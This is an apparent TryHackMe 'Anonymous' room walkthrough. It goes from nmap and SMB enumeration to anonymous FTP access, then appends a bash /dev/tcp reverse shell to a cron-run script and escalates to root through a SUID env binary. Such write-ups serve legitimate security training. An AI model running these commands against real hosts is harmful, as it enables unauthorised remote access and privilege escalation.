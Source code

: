 ![](images/THMlogo.png)

[TryHackMe](https://tryhackme.com)

## Anonymous - Walk-through


### Welcome to the walk-through of the Anonymous room:


<br>
note:

if this walk-through has any typos or problems I am sorry in advance and I welcome any suggestions to improve the next walk-through.<br>
hope you enjoy it.

room description:<br>
According to the room description, this is Linux based machine built to "prove your understanding of the fundamentals".
so lets begin working on it!

 first things first , simple enumeration with Nmap:<br>
`nmap -A -sV 10.10.162.188 -oN nmap_report.txt`

![](images/nmap_ports.jpg)

as we can see we have open ports. let's start enumerate SMB protocol, I use enum4linux for enumeration.
<br>
`enum4linux -a 10.10.162.188`


![](images/enum4linux_shares.jpg)

we have list of share-names on the user's computer.
pics share directory is our interest.
so let's connect to it:<br>
`smbclient //10.10.162.188/pics -U user`

![](images/smbclient_get.jpg)

now after listing files in the pics directory, we can see we have two pictures. let's check these pictures by downloading them with `get` command.

lets see the pics!

![](images/cute_dogs.jpg)

little cuties with hidden but useless data.
this is the tricky part! after spending sometime for it and using different steganography tools like ExifTool, binwalk & Steghide I could not get any useful data so I turned to FTP protocol instead.

![](images/ftp-anon-allowed.jpg)

in nmap report we can see we have ftp-anon, with it we can log in with anonymous user and no password, let's try it:

![](images/ftp-login.jpg)

checking the script directory, we know that we have interesting files!

![](images/ftp-list.jpg)

clean.sh has very good permissions for us!

first, let us download and check each file hoping to get any good info.

clean.sh

![](images/cleansh.jpg)

removed_files.log

![](images/rem-log.jpg)

we can guess clean.sh file is run with crontab.

to_do.txt

![](images/todo.jpg)
well it's too late now!

we must find some way to append or edit clean.sh file we can not do it with FTP command so we use
`curlftpfs` , this tool mounts an FTP host as a local directory so then we can  edit clean.sh .

let's make directory for hosting FTP:<br>
`mkdir -p ~/mnt/ftpfs`

mount it to out machine:<br>
`curlftpfs anonymous@10.10.162.188 ~/mnt/ftpfs`

`cd` to it:<br>
`cd ~/mnt/ftpfs/`

now we can edit clean.sh<br>
`nano clean.sh`

we can append a little reverse shell in it:
I often use https://www.revshells.com/,
so let's make a one-line reverse shell.<br>
`bash -i >& /dev/tcp/10.8.7.90/8888 0>&1`


save clean.sh ,next we must run a listener:<br>
`nc -lvp 8888`

wait till crontab run clean.sh script or we can just run it:<br>
`./clean.sh`

we may see errors when we run it but nonetheless, we have our reverse shell start to run.

![](images/run-cleansh.jpg)

![](images/access.jpg)


voila!  we have access to "tonamelessone" user.

checking what this user has in his directory we found our user flag.

![](images/namelessonone.jpg)

now let's escalate our privilege, I wrote a little note about Linux privilege escalation:<br>
 https://github.com/WhiteOwl-Pub/Linux_privEsc_Notes
<br>it has good tips on it. check it out!

after some time, toying with different commands I check suid permissions:

`find / -type f -perm -04000 -ls 2>/dev/null`

checking the list with my fav site:
https://gtfobins.github.io/#+suid for privilege escalation:

find out we can use env to privilege escalation to root!

![](images/env-suid.jpg)

now we cd to /usr/bin/env:<br>
`cd /usr/bin/env`

and run:<br>
`./env /bin/sh -p`

![](images/root-access.jpg)

if you want you can run this command to stabilize shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`


for finding root flag first, we check root home directory. the alternative way is using find command since we have the file name.
know that we can use find command if we have a portion of the file name too.

![](images/find-rootflag.jpg)

![](images/root-flag.png)


well done we found the final flag.

hope you enjoy it!
